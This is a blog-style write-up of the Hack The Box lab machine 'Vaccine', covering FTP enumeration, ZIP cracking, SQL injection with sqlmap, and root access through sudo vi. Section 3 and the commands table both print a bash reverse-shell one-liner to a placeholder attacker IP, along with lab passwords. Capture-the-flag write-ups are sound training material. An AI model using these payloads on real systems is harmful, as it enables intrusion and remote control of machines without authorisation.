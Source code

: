 ```yaml
---
title: "HTB Starting Point: Vaccine — A Bug Bounty Writeup for the End of the Internet"
datePublished: Sat Jul 05 2025 05:12:26 GMT+0000 (Coordinated Universal Time)
cuid: cmcpse97e000002la1q0qgyml
slug: htb-starting-point-vaccine-a-bug-bounty-writeup-for-the-end-of-the-internet
tags: infosec-cjbi6apo9015yaywu2micx2eo, ctf, penetration-testing, hackthebox, cybersecurity-1, sqlinjection, ethicalhacking, bugbounty, linux-security, privilege-escalation, vulnerabilitydisclosure, ghosthermes, reverseshell, hackingwriteup, techcommentary

---
```


Ah, **Vaccine**. The irony of hacking a box named after a cure, when the only thing I’m inoculating against is my own boredom with pentest CTFs. But here we are: another Hack The Box “Starting Point” machine, another chance to let automation and a bit of terminal-fu do what the internet does best—eat itself.

## 1\. Initial Access: FTP, the Forgotten Door

Let’s start with the basics: **enumeration**. A quick `nmap` scan coughed up the usual suspects—FTP, SSH, and HTTP1. FTP, that relic of a more trusting age, was wide open for anonymous login. I grabbed `backup.zip` like a digital raccoon.

Cracking the ZIP? Child’s play. `zip2john` and `john` churned out the password in seconds: **qwerty789**. If you’re still using passwords like this, you deserve everything that’s coming.

## 2\. Web Application: Admin Panel of Doom

Armed with `qwerty789`, I waltzed into the admin panel via HTTP. The dashboard’s search parameter was practically begging for **SQL injection**1\. A little manual poking confirmed it, but why waste time? I let `sqlmap` do the heavy lifting. The result: full DB access and, with a little encouragement, **command execution**.

## 3\. Shell Access: Reverse Shells and Terminal Gymnastics

With a reverse shell payload (`bash -c 'bash -i >& /dev/tcp/MY_IP/4444 0>&1'`), I was in as the **postgres** user. Of course, the shell was trash, so out came the old `python3 -c 'import pty; pty.spawn("/bin/bash")'` trick for a semi-usable TTY1.

## 4\. Privilege Escalation: Sudo, vi, and the Eternal :!bash

Privilege escalation was almost too easy. `sudo -l` revealed that **postgres** could run `/bin/vi /etc/postgresql/11/main/pg_hba.conf` as root. If you know your GTFOBins, you know what comes next: `:!bash` inside vi, and suddenly, I’m root1.

## 5\. Flag Collection: Not Where You’d Expect

The **user flag** wasn’t in the usual home directory. A quick find and some grep-fu tracked it down. The **root flag** waited obediently in `/root/root.txt`. Both captured, both submitted. Box pwned.

## 6\. Enumeration & Methodology: The Usual Suspects

* Enumerated users, passwords, SUID binaries, writable files, cron jobs, and SSH keys.
    
* Used bundled commands and output parsing to hunt for escalation vectors and flags.
    
* Let automation do the heavy lifting where possible—because why not let the internet’s own tools help dismantle it?
    

## Key Credentials & Commands

| Purpose | Command/Credential |
| --- | --- |
| FTP Anonymous Login | `ftp 10.129.x.x` (username: anonymous) |
| ZIP Password | `qwerty789` |
| Web Admin Password | `qwerty789` |
| Postgres Sudo Password | `P@s5w0rd!` |
| Reverse Shell Payload | `bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'` |
| Shell Upgrade | `python3 -c 'import pty; pty.spawn("/bin/bash")'` |
| Privilege Escalation | `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf` + `:!bash` |

## Final Thoughts

Another box, another reminder that **the internet is held together by duct tape, default creds, and the hope that no one’s bored enough to look**. Vaccine was a breeze, but it’s a perfect microcosm of why we can’t have nice things online. Maybe one day, the machines will automate themselves out of existence. Until then, I’ll keep poking holes—because someone has to keep the contradiction alive1[4](https://ethicalme.hashnode.dev/series/htb-starting-point)[8](https://shapmanasick.gitbook.io/starting-point-htb/vaccine-walkthrough).

*Rooted and looted. Next!*

1. [https://www.youtube.com/watch?v=iwwwaFNoOAI](https://www.youtube.com/watch?v=iwwwaFNoOAI)
    
2. [https://forum.hackthebox.com/t/vaccine-starting-point-walk-through/2921](https://forum.hackthebox.com/t/vaccine-starting-point-walk-through/2921)
    
3. [https://i-base.info/htb/28472](https://i-base.info/htb/28472)
    
4. [https://ethicalme.hashnode.dev/series/htb-starting-point](https://ethicalme.hashnode.dev/series/htb-starting-point)
    
5. [https://forum.hackthebox.com/t/starting-point-vaccine/303034](https://forum.hackthebox.com/t/starting-point-vaccine/303034)
    
6. [https://www.youtube.com/watch?v=xziHmSl1yZQ](https://www.youtube.com/watch?v=xziHmSl1yZQ)
    
7. [https://www.youtube.com/watch?v=tT43RRsLiW8](https://www.youtube.com/watch?v=tT43RRsLiW8)
    
8. [https://shapmanasick.gitbook.io/starting-point-htb/vaccine-walkthrough](https://shapmanasick.gitbook.io/starting-point-htb/vaccine-walkthrough)
    
9. [https://forum.hackthebox.com/t/starting-point-vaccine-help/3474](https://forum.hackthebox.com/t/starting-point-vaccine-help/3474)
    
10. [https://www.linkedin.com/pulse/hack-box-starting-point-vaccine-nathan-barnes](https://www.linkedin.com/pulse/hack-box-starting-point-vaccine-nathan-barnes)